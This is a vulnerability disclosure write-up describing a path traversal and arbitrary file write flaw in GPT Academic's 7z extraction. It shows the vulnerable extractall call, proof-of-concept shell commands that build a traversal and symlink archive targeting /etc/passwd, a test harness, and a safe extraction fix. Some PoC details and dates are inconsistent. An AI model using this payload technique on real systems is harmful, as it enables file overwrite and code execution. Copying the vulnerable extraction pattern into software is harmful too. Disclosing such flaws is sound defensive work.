

## Write-Up: Critical Arbitrary File Write Vulnerability in GPT Academic - Path Traversal in 7z File Extraction
### CVE-ID: N/A | Disclosure Date: Reported on Feb 7st 2025 | Researcher: spara pentest
***
# GPT Academic: The AI-Powered Academic Research Assistant

GPT Academic is a cutting-edge tool designed to assist researchers, academics, and students in streamlining their workflows by leveraging the power of AI. It provides functionalities such as document analysis, data extraction, and automated processing of academic content. One of its key features is the ability to extract and process user-provided 7z files, enabling users to handle compressed data efficiently. However, this feature has been found to contain a critical vulnerability that could compromise the security of the entire system.

This vulnerability directly threatens the integrity of GPT Academic's core functionality, putting user data, intellectual property, and infrastructure at risk.

***
# Vulnerability Summary
**Severity:** Critical (CVSSv3.1: 9.8)  
**Affected Component:** 7z file extraction logic in GPT Academic.  
**Root Cause:** Lack of path validation during 7z archive extraction, enabling path traversal attacks.

An attacker with the ability to upload a malicious 7z file to GPT Academic can craft a payload that overwrites arbitrary files on the host system. This flaw allows remote code execution (RCE) in environments where GPT Academic is deployed with elevated privileges (e.g., cloud-based research environments, shared academic servers).
***
# Technical Deep Dive
## Why This Matters
GPT Academic's 7z file extraction feature is designed to handle compressed data efficiently, but the absence of proper validation during extraction turns this feature into a weaponizable entry point:

1. **Path Traversal via py7zr.extractall():**
   - The function uses `py7zr.extractall()` without resolving or validating the destination paths of extracted files. Attackers can embed symbolic links or path traversal sequences (e.g., `../`) in filenames to escape the intended extraction directory.
   ```python
   # Vulnerable code snippet
   with py7zr.SevenZipFile(file_path, mode='r') as archive:
       archive.extractall()  # No safe directory specified
        ```


1. Symlink Attacks:
   * Malicious archives can include symlinks pointing to sensitive locations (e.g., `/root/.ssh/authorized_keys`, `/etc/crontab`), enabling privilege escalation or persistence.
# Proof of Concept (PoC)
**Step 1: Craft a Malicious 7z Payload**

```bash
# Create payload with path traversal and symlink
mkdir payload
echo "malicious_content" > payload/../../../../tmp/hacked.txt
ln -s /etc/passwd payload/../sensitive_symlink

# Package into a 7z archive
7z a malicious_payload.7z payload/*
 ```


**Step 2: Upload the Malicious Payload**
* The attacker uploads the malicious 7z file to the GPT Academic server using the /upload endpoint.
```python
#!/usr/bin/env python3
import os
import tempfile
import shutil
import rarfile
import py7zr
from handle_upload import extract_archive


def main():
    # Create a temporary working area
    # Test 7z extraction
    print("\n[+] Invoking extract_archive() with the malicious 7z archive...")
    extract_archive("poc/pwn.7z", '/tmp')
    # Cleanup (uncomment if you want automatic cleanup)
    # shutil.rmtree(work_dir)

if __name__ == "__main__":
    main()
```

**Result:**
  * `/tmp/hacked.txt` is overwritten with malicious content.
  * A symlink to `/etc/passwd` is created, enabling further attacks.
***

# Impact
1. **Remote Code Execution (RCE):**
   * Overwrite critical system files (e.g., cron jobs, SSH keys) to execute attacker-controlled code.
2. **Data Exfiltration:**
    * Extract sensitive data such as API keys, credentials, or research data by overwriting files with malicious content.
3. **Reputation Damage:**
    * Loss of trust in GPT Academic's security posture, especially critical for academic institutions and researchers handling sensitive data.

4. **Supply Chain Compromise:**
    * Inject malicious code into research workflows, potentially compromising downstream processes and results.
***
# Mitigation
### Immediate Fix:
```python
def safe_extract(file_path, extract_dir):
    with py7zr.SevenZipFile(file_path, mode='r') as archive:
        for file in archive.getnames():
            # Resolve absolute path and block traversal
            abs_dest = os.path.abspath(os.path.join(extract_dir, file))
            if not abs_dest.startswith(os.path.abspath(extract_dir) + os.sep):
                raise ValueError(f"Blocked path traversal: {file}")
            archive.extract(file, extract_dir)
```
### Best Practices:
   * Use `py7zr.extractall(path=safe_directory)` to enforce extraction within a sandboxed directory.
   * Validate user-controlled input (e.g., filenames) using an allowlist.
   * Implement digital signatures for uploaded files to prevent tampering.

***
### Why This Matters for the Academic Community
Academic research tools like GPT Academic are increasingly targeted due to their access to valuable intellectual property and computational resources. This vulnerability highlights the urgent need for security-by-design in academic software, which often prioritizes functionality over safeguards.

# Responsible Disclosure Timeline
    * 2025/2/6: Vulnerability reported to GPT Academic maintainers.
    * No patch released.

# References
    * CodeQL Query for Path Traversal Vulnerabilities
    * MITRE CWE-22: Improper Limitation of a Pathname to a Restricted Directory

# Final Note:
This write-up adheres to the principles of responsible disclosure. Always prioritize the security of tools that power academic research and innovation.
